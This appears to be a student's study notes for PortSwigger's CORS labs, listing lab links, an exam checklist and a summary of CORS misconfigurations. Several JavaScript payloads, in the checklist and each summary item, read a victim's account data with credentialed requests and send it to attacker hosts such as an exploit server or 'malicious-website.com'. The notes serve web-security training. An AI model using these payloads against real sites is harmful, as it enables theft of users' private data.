 # [Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)

## Lab

- apprentice:
  - [1. CORS vulnerability with basic origin reflection](./lab/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection.md)
  - [2. CORS vulnerability with trusted null origin](./lab/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin.md)
- practitioner:
  - [3. CORS vulnerability with trusted insecure protocols](./lab/3.%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols.md)

## Keywords

- CORS: Cross-origin resource sharing
- SOP: same origin policy
- ACAO: Access-Control-Allow-Origin

## Checklist for exam

- The `Access-Control-Allow-Credentials` header in response suggests that it may support CORS
- How the server creates the `Access-Control-Allow-Origin` header:
  - reflect any `Origin` header value?
  - null?
  - reflect `Origin` with all subdomains value?
  - ...

- payload:

  ```js
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
      location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; 
    };
  </script>
  ```

## Summary

some vulnerabilities of CORS:

1. Server-generated ACAO header from client-specified `Origin` header:

    - [lab](./lab/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection.md)
    - payload:

      ```js
      <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://id.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
      };
      </script>
      ```

2. Errors parsing Origin headers:

    - whitelist:
      - allow access from all their subdomains (including future subdomains not yet in existence)
      - allow access from various other organizations' domains including their subdomains
    - whitelist problems:
      - often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.
      - example: `normal-website.com`
        - `hackersnormal-website.com` => ok
        - `normal-website.com.evil-user.net` => ok

3. Whitelisted null `origin` value:
    - [lab](./lab/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin.md)
    - Browsers might send the value null in the `Origin` header in various unusual situations:

      - Cross-origin redirects.
      - Requests from serialized data.
      - Request using the file: protocol.
      - Sandboxed cross-origin requests.
    - sandboxed payload:

      ```js
      <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','vulnerable-website.com/sensitive-victim-data',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
      location='malicious-website.com/log?key='+this.responseText;
      };
      </script>"></iframe>
      ```

4. Exploiting XSS via CORS trust relationships:
    - [lab](./lab/3.%20CORS%20vulnerability%20with%20trusted%20insecure%20protocols.md)
    - exploit xss via CORS trust to retrieve sensitive information from the site that trusts the vulnerable application.
    - payload:

      ```js
      <script>
      document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
      </script>
      ```

5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials
